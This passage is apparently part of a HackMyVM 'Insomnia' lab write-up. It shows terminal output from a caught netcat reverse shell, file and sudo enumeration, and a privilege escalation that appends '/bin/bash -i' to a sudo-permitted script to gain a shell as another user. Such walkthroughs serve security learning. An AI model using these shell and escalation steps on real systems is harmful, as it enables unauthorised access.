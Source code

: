 ```bash
┌──(kali🔥kali)-[~/Downloads/HackMyVM/Insomnia]
└─$ stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
[1]  + continued  rlwrap -icr nc -lvnp 4444
www-data@insomnia:~/html$ 
www-data@insomnia:~/html$ whoami
whoami
www-data
www-data@insomnia:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@insomnia:~/html$ 
www-data@insomnia:~/html$ ls -al
ls -al
total 36
drwxr-xr-x 3 www-data www-data 4096 Jun 27 07:11 .
drwxr-xr-x 3 root     root     4096 Dec 17  2020 ..
-rw-r--r-- 1 www-data www-data  426 Dec 21  2020 administration.php
-rw-r--r-- 1 www-data www-data 1610 Dec 20  2020 chat.js
-rw-r--r-- 1 www-data www-data    0 Jun 27 07:02 chat.txt
drwxr-xr-x 2 www-data www-data 4096 Dec 20  2020 images
-rw-r--r-- 1 www-data www-data 2899 Dec 21  2020 index.php
-rw-r--r-- 1 www-data www-data 1684 Dec 20  2020 process.php
-rw-r--r-- 1 www-data www-data    0 Jun 27 07:11 rshell.php
-rw-r--r-- 1 www-data www-data    0 Jun 27 07:09 shell.php
-rwxrwxrwx 1 root     root       20 Dec 21  2020 start.sh
-rw-r--r-- 1 www-data www-data 1363 Dec 20  2020 style.css
www-data@insomnia:~/html$ 
```
{: .nolineno}

Lets see the `start.sh` suspicious file ⤵️

```bash
www-data@insomnia:~/html$ cat start.sh 
cat start.sh 
php -S 0.0.0.0:8080
www-data@insomnia:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on insomnia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on insomnia:
    (julia) NOPASSWD: /bin/bash /var/www/html/start.sh
www-data@insomnia:~/html$ echo "/bin/bash -i" >> /var/www/html/start.sh
echo "/bin/bash -i" >> /var/www/html/start.sh
www-data@insomnia:~/html$ sudo -u julia /bin/bash /var/www/html/start.sh
sudo -u julia /bin/bash /var/www/html/start.sh
[Fri Jun 27 07:18:30 2025] Failed to listen on 0.0.0.0:8080 (reason: Address already in use)
julia@insomnia:/var/www/html$ whoami                        whoami
whoami
julia
julia@insomnia:/var/www/html$ id                            id
id
uid=1000(julia) gid=1000(julia) groups=1000(julia),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
julia@insomnia:/var/www/html$ 
```
{: .nolineno}
I got to see the `.bash_history` of this user that can lead me to root I think.
